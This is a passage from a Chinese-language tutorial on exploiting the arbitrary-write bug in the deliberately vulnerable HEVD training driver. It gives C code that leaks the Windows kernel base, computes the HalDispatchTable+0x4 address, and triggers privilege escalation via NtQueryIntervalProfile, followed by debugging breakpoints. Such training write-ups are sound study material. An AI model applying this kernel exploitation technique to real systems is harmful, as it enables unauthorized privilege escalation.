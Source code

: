 ```C
}
```

4. 

```c
//用`EnumDeviceDrivers`函数检索系统中每个设备驱动程序的加载地址，然后用`GetDeviceDriverBaseNameA`函数检索指定设备驱动程序的基本名称，以此确定 ntkrnlpa.exe 在内核模式中的基地址，当然我们需要包含文件头`Psapi.h`。如果是pwn选手的话，这个步骤可以理解为泄露libc的基地址。
LPVOID NtkrnlpaBase()
{
	LPVOID lpImageBase[1024];
	DWORD lpcbNeeded;
	TCHAR lpfileName[1024];
	//Retrieves the load address for each device driver in the system
	EnumDeviceDrivers(lpImageBase, sizeof(lpImageBase), &lpcbNeeded);

	for (int i = 0; i < 1024; i++)
	{
		//Retrieves the base name of the specified device driver
		GetDeviceDriverBaseNameA(lpImageBase[i], lpfileName, 48);

		if (!strcmp(lpfileName, "ntkrnlpa.exe"))
		{
			printf("[+]success to get %s\n", lpfileName);
			return lpImageBase[i];
		}
	}
	return NULL;
}
```

```c
HMODULE hUserSpaceBase = LoadLibrary("ntkrnlpa.exe");
// 获取ntkrnlpa.exe在r3下的基地址
```

```c
PVOID pUserSpaceAddress = GetProcAddress(hUserSpaceBase, "HalDispatchTable");
// 获取ntkrnlpa.exe的导出函数HalDispatchTable的地址
```

```c
DWORD32 hal_4 = (DWORD32)pNtkrnlpaBase + ((DWORD32)pUserSpaceAddress - (DWORD32)hUserSpaceBase) + 0x4;
//计算HalDispatchTable+0x4的地址，即真实低地址=内核基地址+r3算出来的偏移，pwn选手可以很容易理解，因为相对偏移是固定的
```

5. 当我们利用4里面的方法获取我们想覆盖的位置的时候，调用内核函数`NtQueryIntervalProfile`就可以实现提权，因为这个函数中call了我们之前覆盖的位置，到这里读者也应该明白我们第4步计算地址的目的了。

### 0x3 调试验证过程

我们需要下的断点

> HEVD!TriggerArbitraryWrite
>
> nt!NtQueryIntervalProfile
